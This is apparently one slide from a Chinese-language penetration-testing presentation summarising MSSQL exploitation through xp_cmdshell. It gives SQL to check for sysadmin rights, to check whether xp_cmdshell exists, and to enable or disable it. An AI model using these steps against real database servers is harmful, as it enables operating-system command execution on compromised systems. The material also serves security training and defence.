

MSSQL数据库
利用总结
xp_cmdshell利用
SELECT IS_SRVROLEMEMBER('sysadmin');	#判断当前是否为 DBA 权限，返回 1 即为sysadmin。 
SELECT COUNT(*) FROM master.dbo.sysobjects WHERE xtype='x' AND name='xp_cmdshell'
查看是否存在 xp_cmdshell，返回 1 则存在 。
开启 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
关闭 xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;